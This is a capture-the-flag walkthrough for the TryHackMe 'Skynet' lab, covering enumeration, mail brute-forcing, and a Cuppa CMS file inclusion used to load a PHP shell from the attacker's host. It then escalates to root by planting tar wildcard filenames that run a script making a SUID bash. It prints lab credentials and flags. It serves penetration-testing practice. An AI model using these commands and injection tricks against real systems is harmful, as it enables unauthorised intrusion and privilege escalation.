









# Skynet (THM)

- https://tryhackme.com/room/skynet
- March 3, 2023
- easy

---

## Enumeration

- Nmap Initial

1. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.18 ((Ubuntu))
3. 110/pop3d
   - pop3-capabilities: TOP PIPELINING AUTH-RESP-CODE UIDL RESP-CODES SASL CAPA
4. 139/samba smbd 3.X - 4.X
5. 143/imap Dovecot imapd
   - imap-capabilities: ENABLE LOGIN-REFERRALS Pre-login listed more IMAP4rev1 OK have LOGINDISABLEDA0001 ID IDLE post-login capabilities SASL-IR LITERAL+
6. 445/tcp open netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

- samba enumeration with enum4linux

```
users - milesdyson
shares - print$, anonymous, milesdyson, IPC$
anonymous - ok
```

- login as anonymous

```sh
$ smbclient //$IP/anonymous
# get files
```

- log1.txt -> may be passwords of something
- attention.txt -> username - Miles Dyson

- http directory enumeration

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c
admin         [Status: 301, Size: 312, Words: 20, Lines: 10]
config        [Status: 301, Size: 313, Words: 20, Lines: 10]
css           [Status: 301, Size: 310, Words: 20, Lines: 10]
index.html    [Status: 200, Size: 523, Words: 26, Lines: 19]
js            [Status: 301, Size: 309, Words: 20, Lines: 10]
server-status [Status: 403, Size: 277, Words: 20, Lines: 10]
squirrelmail  [Status: 301, Size: 319, Words: 20, Lines: 10]
```

- SquirrelMail -> 1.4.23 (SVN)



- admin -> no permission

- at this point, we get `username - Miles Dyson` and list of may be passwords from anonymous ftp server
- we know squirrel mail login page and try to brute force with Miles Dyson and passwords
- create possible usernames
- write in `mail_burte_force.py`

`milesdyson:cyborg007haloterminator`





```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B
```

- other mails





- enter smb with above password

```sh
smbclient //$IP/milesdyson -U milesdyson
```



- there are many files inside notes folder
- get important.txt

```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

- it may be secret directory in http



- nothing special found and brute force the directory

```sh
$ ffuf -u http://10.10.14.212/45kra24zxs28v3yd/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -t 128 -c
```

- administrator found
  `http://10.10.14.212/45kra24zxs28v3yd/administrator/` - it is a login page.



- try to login with previous name and password
- not success
- find cuppa exploit and found '/alertConfigField.php' Local/Remote File Inclusion
- https://www.exploit-db.com/exploits/25971

- http://10.10.14.212/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../etc/passwd

- in local machine, create server with python and create shell.php file
- listen with nc in local machine
- curl request to

```
http://10.10.14.212/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.8.57:9999/php_shell.php
```



```sh
$ cat /home/milesdyson/user.txt
7ce5c2109a40f958099283600a9ae807
```

- check cronjobs

```sh
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

$ cat backups/backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

- backup.sh is run by root user as cron job
- backup.sh run tar with \* from /var/www/html directory which has `www-data` full permission
- here is an exploit to get root shell

```sh
$ cd /var/www/html
$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
# this will be run by root and will get SUID for bash
$ chmod +x runme.sh
$ touch "/var/www/html/--checkpoint=1"
$ touch "/var/www/html/--checkpoint-action=exec=sh runme.sh"
# wait for 1 minute to run by root, then
$ ls -la /tmp # if bash is found
$ /tmp/bash -p
$ whoami
root
$ cat /root/root.txt
3f0372db24753accc7179a282cd6a949
```

---
